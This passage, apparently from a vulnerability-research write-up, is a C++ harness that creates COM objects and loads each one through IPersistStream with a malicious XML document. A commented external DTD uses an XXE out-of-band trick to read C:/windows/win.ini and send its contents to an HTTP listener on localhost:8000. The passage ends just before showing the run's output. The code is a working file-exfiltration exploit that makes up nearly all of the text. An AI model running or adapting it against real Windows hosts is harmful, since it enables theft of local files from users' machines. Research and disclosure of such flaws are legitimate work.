 ```c++
    printf("Guid failed w/ '%s'\n", Key);
    return EXIT_FAILURE;
  }

  printf("Trying to create %s\n", Key);
  IUnknown *Unknown = nullptr;
  HRESULT Hr = CoCreateInstance(ClassId.value(), nullptr, CLSCTX_ALL,
                                IID_IUnknown, (LPVOID *)&Unknown);
  if (FAILED(Hr)) {
    Hr = CoCreateInstance(ClassId.value(), nullptr, CLSCTX_ALL, IID_IDispatch,
                          (LPVOID *)&Unknown);
  }

  if (FAILED(Hr)) {
    printf("Failed CoCreateInstance %s\n", Key);
    return EXIT_FAILURE;
  }

  IPersistStream *PersistStream = nullptr;
  Hr = Unknown->QueryInterface(IID_IPersistStream, (LPVOID *)&PersistStream);
  DWORD Return = EXIT_SUCCESS;
  if (SUCCEEDED(Hr)) {
    printf("SUCCESS %s!\n", Key);
    // - Content of xxe.dtd:
    // ```
    // <!ENTITY % payload SYSTEM "file:///C:/windows/win.ini">
    // <!ENTITY % root "<!ENTITY &#x25; oob SYSTEM 'http://localhost:8000/file?%payload;'>">
    // %root;
    // %oob;
    // ```
    const char S[] = R"(<?xml version="1.0"?>
<!DOCTYPE malicious [
  <!ENTITY % sp SYSTEM "http://localhost:8000/xxe.dtd">
%sp;&root;
]>))";
    IStream *Stream = SHCreateMemStream((const BYTE *)S, sizeof(S));
    PersistStream->Load(Stream);
    Stream->Release();
  }

  if (PersistStream) {
    PersistStream->Release();
  }

  Unknown->Release();
  return Return;
}
```

This is what it looks like when running it:
